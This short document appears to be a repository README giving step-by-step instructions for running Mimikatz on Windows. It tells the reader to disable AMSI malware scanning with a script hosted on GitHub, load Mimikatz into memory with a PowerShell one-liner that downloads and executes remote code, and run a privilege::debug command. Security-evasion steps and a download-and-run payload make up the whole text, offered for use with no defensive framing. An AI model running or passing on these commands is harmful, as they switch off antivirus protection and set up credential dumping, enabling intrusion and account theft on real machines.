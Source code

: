 1. Open Powershell as Admin
2. Disable AMSI (paste the following): https://raw.githubusercontent.com/jj4152/invoke-mimikatz/main/disable-amsi
3. Load Mimikatz into Memory: iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/jj4152/invoke-mimikatz/main/invoke-mimikatz.ps1')
4. Execute desired command: Invoke-Mimikatz -Command "privilege::debug"
